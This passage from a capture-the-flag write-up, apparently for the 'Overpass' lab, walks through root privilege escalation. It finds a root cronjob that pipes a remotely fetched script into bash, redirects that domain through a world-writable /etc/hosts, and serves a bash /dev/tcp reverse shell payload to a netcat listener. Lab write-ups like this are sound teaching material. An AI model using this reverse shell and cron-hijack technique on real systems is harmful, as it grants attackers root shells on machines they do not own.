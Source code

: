 Automated build script sounds like it could a cronjob, let's check.

``` bash
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

It's pulling the build script from a domain name, so we may be able to upload our own script if we're able to edit the hosts file.

``` bash
ls -la /etc/hosts
-rw-rw-rw- 1 root root 250 Jun 27  2020 /etc/hosts
```

Luckily we have write access to the hosts file, so we can redirect the cronjob to our payload.

First, we'll rewrite the hosts file to direct to our machine.

``` bash
nano /etc/hosts
```

{{< figure src="/overpass/hosts.png" link="/overpass/hosts.png" >}}

Next, we'll start preparing our attacking machine.

``` bash
mkdir -p downloads/src
touch downloads/src/buildscript.sh
echo "bash -i >& /dev/tcp/attackers-ip/9001 0>&1" > downloads/src/buildscript.sh
```

Now we'll start our netcat listener

``` bash
nc -lvnp 9001
```

And in a separate terminal window, a python server to send the payload.

``` bash
python -m http.server 80
```
